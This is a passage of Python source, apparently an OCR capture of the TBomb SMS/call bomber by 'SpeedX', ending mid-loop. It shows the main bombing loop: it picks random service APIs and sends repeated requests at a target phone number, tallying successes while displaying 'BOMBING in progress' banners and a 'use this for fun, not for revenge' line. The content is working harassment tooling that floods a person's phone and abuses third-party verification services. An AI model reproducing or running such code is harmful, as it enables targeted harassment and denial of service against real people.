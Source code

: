 
def remsp(num):
    num = num.replace(' ', '')
    num = num.replace('-', '')
    return num


def start(target, counter, delay, ch, cc):
    clr()
    banner()
    failed = 0
    requested = 0
    success = int(requested) - int(failed)
    bombs = int(counter) + 1
    while success < (int(bombs)):
        os.system('clear')
        banner()
        try:
            api = random.choice(ch)
        except Exception:
            if cc == "91":
                print('Sorry All APIs Have Expired Please Update TBomb')
                input('Press Enter To Exit...')
                exit()
            else:
                if success > 0:
                    print(
                        '\n\n\tWe Are Sorry To Say That Bombing Limit For Your Country Has Been Reached...')
                    print(
                        '\nWe Are Working Too Hard To Increase The International Limit...')
                    input(
                        '\nThis will help us to give support to your country fast...\n\nPress Enter To Exit...')
                    os.system('rm *.xxx* > /dev/null 2>&1')
                    print('\n\n')
                    banner()
                    exit()
                else:
                    print('\n\n\tSorry Your Country is Not Supported...')
                    print(
                        '\t\tPlease Send A Mail To ggspeedx29@gmail.com To Let Us Know...')
                    input('Press Enter To Exit...')
                    exit()
        print(random.choice(colors))
        print("==================================================================")
        print("                BOMBING in progress, please wait !!               ")
        print("     Please keep your data connection active during bombing !!    ")
        print("==================================================================")
        print("             Target Number           : +" + str(cc) + " ", target)
        print("             Number of Requests Sent : ", requested)
        print("             Successful Requests     : ", success)
        print("             Failed Requests         : ", failed)
        print("==================================================================")
        print("              Use this for fun, not for revenge !!                ")
        print("              This Bomber Was Created By SpeedX !!                ")
        print("==================================================================")
        try:
            result = getapi(target, api, cc)
        except Exception:
           result = False
        requested = requested + 1
        if result:
            success = success + 1
        else:
            failed = failed + 1
            while ch.count(api) > 0:
